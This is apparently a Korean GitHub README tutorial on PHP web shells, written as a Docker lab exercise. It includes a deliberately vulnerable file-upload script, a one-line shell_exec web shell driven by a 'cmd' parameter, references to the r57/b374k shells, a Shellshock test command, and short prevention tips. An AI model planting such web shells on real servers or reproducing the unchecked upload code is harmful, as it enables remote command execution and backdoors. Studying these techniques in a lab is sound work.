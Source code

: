 ## web shell

해당 기법들은 개인용으로 참조하시기 바랍니다.

업로드 취약점을 통해 시스템에 명령을 내릴수 있는 코드를 칭하지만 내부적인 코드로 인해서 발생할수 있다.

해당 취약점이 발생되면 시스템에 원격으로 백도어를 심을수 있다.

대표적인 웹셀파일 r57.php 


# 시작하기


해당 파일시작하기

테스트 PHP-fpm-Apache을 설치해야한다. 

해당 설치는 도커파일로 대체한다. 다음과 같은 커멘드를 입력하게되면 위의 세팅이 들어간 도커가 실행된다.

```
docker run --rm -p 80:80 -v <sourcePath>:/var/www/html php:7.2-apache
```

```<sourcePath>```폴더에 fileAction.php 파일을 만든후 다음과 같은 코드를 넣는다.


```
//파일업로드 HTML 코드
<form enctype="multipart/form-data" action="fileAction.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="3000000" />
    이 파일을 전송합니다: <input name="userfile" type="file" />
    <input type="submit" value="파일 전송" />
</form>
```


실제 파일의 업로드하는 PHP 코드

move_uploaded_file을 이용하여 파일을 업로드 하는 코드

```
<?php

$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . basename($_FILES['userfile']['name']);

echo '<pre>';
if (move_uploaded_file($_FILES['userfile']['tmp_name'], $uploadfile)) {
    echo "파일이 유효하고, 성공적으로 업로드 되었습니다.\n";
} else {
    print "파일 업로드 실패";
}

echo '자세한 디버깅 정보입니다:';
print_r($_FILES);

print "</pre>";

?>
```

취약점을 가진 php파일을 생성후 

해당 파일을 업로드한다.

![업로드](https://github.com/rinechran/Hws/blob/master/img/fileupload.jpg)
```
<?php
echo shell_exec($_GET['cmd']);
?>
```
그리고 간단한 쉘스크립트를 GET프로토콜에 데이터 파라메타인 cmd에 쉘 스크립트를 실행해보자.

![업로드](https://github.com/rinechran/Hws/blob/master/img/exec.jpg)

위의 작업을 좀더 편하게 해주는 php가 대표적으로 r57.php 이 있다.

php를 업로드하여 들어가보자

![업로드](https://github.com/rinechran/Hws/blob/master/img/b374kmini.jpg)

또한 root가아니여도 2014-6271(Shell Shock) 사태처럼 쉘취약점을 이용하여 root를 탈취 가능하다.

bash Shell 취약점 테스트 

```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```


## 예방법

- 웹 서버의 파일 업로드 취약점 제거
- 파일 업로드 폴더의 실행 제한
- 웹 서버의 실행을 root로 하지말기


## 참조

https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084

https://s1gnalcha0s.github.io/node/2015/01/31/SSJS-webshell-injection.html

http://www.r57.gen.tr/
